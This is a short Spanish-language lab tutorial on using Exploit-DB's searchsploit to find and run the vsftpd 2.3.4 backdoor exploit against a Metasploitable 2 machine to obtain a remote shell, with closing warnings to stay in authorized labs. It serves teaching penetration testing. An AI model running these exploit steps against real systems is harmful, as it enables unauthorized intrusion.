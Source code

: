 Usar una base de datos de exploits para encontrar y probar un exploit contra una aplicación vulnerable en una máquina de laboratorio (Metasploitable 2).

---

#### Paso 1: Buscar exploit con Exploit-DB

```bash
searchsploit vsftpd
```

Resultado:

```
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.py
```

---

#### Paso 2: Copiar el exploit a tu directorio de trabajo

```bash
searchsploit -m unix/remote/17491.py
```

---

#### Paso 3: Leer el código

```bash
cat 17491.py
```

Puedes editar el exploit si es necesario.

---

#### Paso 4: Ejecutar el exploit

```bash
python3 17491.py 192.168.1.105
```

Si la máquina es vulnerable, se abre una shell remota.

---

#### Paso 5: Verificar acceso

```bash
whoami
uname -a
```

---

### 📌 Buenas prácticas

- Usa estas bases en **entornos controlados/laboratorios**.
- Siempre verifica que el exploit **corresponde a la versión del software objetivo**.
- Lee el código antes de ejecutarlo: puede haber código malicioso.
- **No uses estos exploits contra sistemas que no te pertenecen o sin autorización.**

---